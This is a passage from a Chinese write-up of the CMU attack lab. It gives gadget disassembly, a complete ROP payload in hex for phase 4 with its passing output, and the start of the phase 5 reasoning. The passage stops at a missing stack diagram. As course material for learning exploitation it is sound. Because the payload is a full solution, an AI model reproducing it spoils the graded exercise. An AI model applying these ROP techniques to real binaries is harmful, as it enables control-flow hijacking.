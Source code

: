 `movq %rax %rdi`：二选一即可

```assembly
000000000000000c <addval_273>:
   c:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  12:	c3                   	ret
000000000000002f <setval_426>:
  2f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  35:	c3                   	ret
```

由此得到字符串：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00 
```

运行结果：

```sh
$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```

### phase 5

phase 5 的要求与 phase 3 相同，因此大体思路仍然是将 cookie 对应的字符串存在 `test` 的栈帧当中，并将 cookie 的地址作为参数传入到 `touch3` 当中。

不过由于栈随机化的影响，这次我们无法直接获取 cookie 的地址，这里想到用一个基准的栈指针 `%rsp` 进行定位，将其初始的地址存在某个寄存器中，再加上一个偏移量，最终得到 cookie 的地址。

但是会发现 write up 中并没有给我们提供 add 指令的编码，好在发现 farm 中提供了一个 `add_xy` 函数，可以利用它进行加法运算：

```assembly
0000000000000042 <add_xy>:
  42:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  46:	c3                   	ret
```

最终得到的栈帧结构如下图所示：
